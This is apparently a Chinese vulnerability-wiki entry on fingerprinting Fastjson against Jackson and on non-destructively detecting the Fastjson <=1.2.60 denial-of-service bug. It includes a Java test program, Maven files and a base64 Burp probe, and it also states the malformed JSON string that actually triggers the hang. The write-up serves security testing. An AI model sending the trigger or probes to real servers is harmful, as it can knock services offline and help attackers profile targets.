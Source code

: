 Fastjson \<=1.2.60 DoS漏洞无损检测+Fastjson与Jackson组建区分
============================================================

一、漏洞简介
------------

二、漏洞影响
------------

Fastjson 1.2.60 以下版本

三、复现过程
------------

针对Fastjson DoS 漏洞的检测，相对较好识别，但其需要发送 DoS
的请求包，就会有一个时间延迟，但是部分使用者或 SRC平台对 DoS
类漏洞持保守态度。

所以这里提出一种无损检测 Fastjson DoS 漏洞的方法。

首先有以下几种情况：

### 未知目标是否使用 Fastjson ，但站点有原始报错回显

如果站点有原始报错回显，可以用不闭合花括号的方式进行报错回显，报错中往往会有fastjson的字样

例如

![](/Users/aresx/Documents/VulWiki/.resource/Fastjson<=1.2.60DoS漏洞无损检测+Fastjson与Jackson组建区分/media/rId25.png)

### 无回显，盲区分 Fastjson 和 Jackson

Java 系 Json 处理基本只有 Fastjson 和 Jackson。由于 Jackson 相对比较严格, 这里可以很好分辨出 Fastjson 和 Jackson

如果请求包中的 json 如下:

{\"name\":\"S\", \"age\":21}

追加一个随机 key ,修改 json 为

{\"name\":\"S\", \"age\":21,\"agsbdkjada\_\_ss\_d\":123}

这里 Fastjson 是不会报错的, Jackson 因为强制 key 与 javabean
属性对齐,只能少不能多 key,所以会报错,服务器的响应包中多少会有异常回显

Fastjson：

![](/Users/aresx/Documents/VulWiki/.resource/Fastjson<=1.2.60DoS漏洞无损检测+Fastjson与Jackson组建区分/media/rId27.png)

Jackson：

![](/Users/aresx/Documents/VulWiki/.resource/Fastjson<=1.2.60DoS漏洞无损检测+Fastjson与Jackson组建区分/media/rId28.png)

### 无损检测原理

已经知道目标使用的是 Fastjson ,可以用以下 poc 去检测是否存在 DOS 漏洞

Fastjson \< 1.2.60 在取不到值的时候会填充 \\u001a ,在1.2.60 进行了修复, 对 \\x 后面的字符进行是否为16进制允许字符
(0-9a-fA-F) 的校验,所以这里就可以手动 padding ,构造一个特殊的字符串

\\x\\u001a\\u001a

测试代码:

Main.java

    import com.alibaba.fastjson.JSON;

    public class Main {
        public static void main(String[] args) {
            String payload = "{\"a\":\"\\x\u001a\u001a\"}";
            System.out.println(payload);
            Object o = JSON.parseObject(payload);
            System.out.println(o.getClass());
        }
    }

Fastjson \< 1.2.60

pom.xml

    <?xml version="1.0" encoding="UTF-8"?>
    <project xmlns="http://maven.apache.org/POM/4.0.0"
             xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
             xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
        <modelVersion>4.0.0</modelVersion>

        <groupId>tophant</groupId>
        <artifactId>tcc</artifactId>
        <version>1.0-SNAPSHOT</version>
    <dependencies>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.59</version>
        </dependency>
    </dependencies>

    </project>

![](/Users/aresx/Documents/VulWiki/.resource/Fastjson<=1.2.60DoS漏洞无损检测+Fastjson与Jackson组建区分/media/rId30.png)

Fastjson == 1.2.60，可以看到报错

pom.xml

    <?xml version="1.0" encoding="UTF-8"?>
    <project xmlns="http://maven.apache.org/POM/4.0.0"
             xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
             xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
        <modelVersion>4.0.0</modelVersion>

        <groupId>tophant</groupId>
        <artifactId>tcc</artifactId>
        <version>1.0-SNAPSHOT</version>
    <dependencies>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.60</version>
        </dependency>
    </dependencies>

    </project>

![](/Users/aresx/Documents/VulWiki/.resource/Fastjson<=1.2.60DoS漏洞无损检测+Fastjson与Jackson组建区分/media/rId31.png)

### 使用 Burp 测试

在 Burp 中测试可以使用 : eyJhIjoiXHgaGiJ9 (base64解码)

当后端 Fastjson 版本小于 1.2.60 时，使用该请求包不会延时不会报错

![](/Users/aresx/Documents/VulWiki/.resource/Fastjson<=1.2.60DoS漏洞无损检测+Fastjson与Jackson组建区分/media/rId33.png)

使用 {\"a:\"\\x 进行请求就会发生 DOS

![](/Users/aresx/Documents/VulWiki/.resource/Fastjson<=1.2.60DoS漏洞无损检测+Fastjson与Jackson组建区分/media/rId34.png)

四、参考链接
------------

> https://blog.riskivy.com/%E6%97%A0%E6%8D%9F%E6%A3%80%E6%B5%8Bfastjson-dos%E6%BC%8F%E6%B4%9E%E4%BB%A5%E5%8F%8A%E7%9B%B2%E5%8C%BA%E5%88%86fastjson%E4%B8%8Ejackson%E7%BB%84%E4%BB%B6/
